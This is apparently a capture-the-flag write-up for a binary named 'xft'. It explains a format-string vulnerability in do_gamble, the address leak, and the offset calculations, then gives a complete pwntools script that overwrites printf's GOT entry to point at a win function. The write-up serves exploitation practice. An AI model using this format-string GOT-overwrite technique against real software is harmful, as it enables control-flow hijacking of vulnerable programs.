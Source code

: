 #### writeup

* `checksec` xtf: RELRO: No RELRO means we can overwrite GOT， allowing us to redirect `printf` to another function like `win`. & PIE: PIE enabled, so function addresses are randomized at runtime. The base address needs to be calculated dynamically.
* The vulnerability is located in the `do_gamble` function, where a user-controllable format string is passed to `printf`:

	```
	00001fba  488d85d0fdffff     lea     rax, [rbp-0x230 {format}]
	00001fc1  4889c7             mov     rdi, rax {format}
	00001fc4  b800000000         mov     eax, 0x0
	00001fc9  e8b2f0ffff         call    printf
	```

* redirecting printf to win via Format String Vulnerability

	* offset
	
		```
		# got the offset = 8
		for i in range(10):
			p.sendlineafter('Press any key to continue...', b'\nc')
			p.sendlineafter("what's your handle?", '%{}$p'.format(i + 1).encode())
			gamble()
		```
	* get the addr of player name
	
		```
		p.recvuntil(b"Hello friend, welcome to xft. what's your handle?")
		p.sendline(b"%1$p")
		```
	
	* get the offset to printf
	
		- calculating the offset by look at the got table & the addr of player name which is 640
	
	* get the offset to win func
		- gdb: info address win by substract the addr of player name which is 12351
		
		-  or by the printf in code offset is 0x4258 - the win in the code offset is 0x1219 = 12351
	* payload 
	
		```
		payload = fmtstr_payload(offset=8, writes={printf_addr: win_addr})
		```
		
#### pwnscript

```
import math
from pwn import *


def is_fibonacci(num):
    def is_perfect_square(n):
        return int(math.sqrt(n)) ** 2 == n

    return is_perfect_square(5 * num * num + 4) or is_perfect_square(5 * num * num - 4)


def hextoint(hex):
    return int(hex, 16)


def gamble(debug=True):
    p.recvuntil(b"What will you do?")
    p.sendline(b"g\n")
    line = p.recvuntil(b"): ")
    try:
        decoded_line = line.decode('utf-8')
    except UnicodeDecodeError:
        decoded_line = line.decode('latin-1')

    max_value = float(decoded_line.split("max")[1].strip("(): "))
    bet_value = max_value / 2
    # print('bet_value: ', bet_value)
    p.sendline(str(bet_value).encode())
    #
    p.recvuntil(b"*** GAMBLE ***")
    p.recvline()

    options = []
    for i in range(10):
        if len(options) == 5:
            break
        line = p.recvline().decode()
        if ')' in line:
            num = int(line.split(')')[1].strip())
            # print('num: ', num)
            options.append(num)

    non_fib = None
    for num in options:
        if not is_fibonacci(num):
            non_fib = num
            break
    #
    if non_fib is not None:
        p.sendline(str(options.index(non_fib) + 1).encode())

    if debug:
        line = p.recvuntil(b"succubus.").decode()
        match = re.search(r'Well done, (.*?)!', line)
        if match:
            value = match.group(1).strip()
            print(f"line {line}\nExtracted value: {value}\n")
            return value
        return None


context.arch = 'amd64'
if args.REMOTE:
    p = remote('lol', 4002)
elif args.HOST:
    p = process('./xft')
else:
    context.terminal = ['tmux', 'splitw', '-h', '-p', '70']
    p = gdb.debug('./xft',
                  gdbscript='''
                  b *do_gamble+449
                  c
                  ''')

p.recvuntil(b"Hello friend, welcome to xft. what's your handle?")
p.sendline(b"%1$p")
ret = gamble()
printf_addr = hextoint(ret) - 640
win_addr = printf_addr - 12351
print('printf_addr', hex(printf_addr))
print('win_addr', hex(win_addr))

payload = fmtstr_payload(offset=8, writes={
    printf_addr: win_addr
})

## got the offset = 8
# for i in range(10):
# # overwrite printf addr
#     p.sendlineafter('Press any key to continue...', b'\nc')
#     p.sendlineafter("what's your handle?", '%{}$p'.format(i + 1).encode())
#     gamble()

p.sendlineafter('Press any key to continue...', b'c')
p.sendlineafter('What will you do?', b'c')
print(payload)
p.sendlineafter("what's your handle?", payload)

gamble(False)

p.interactive()

```
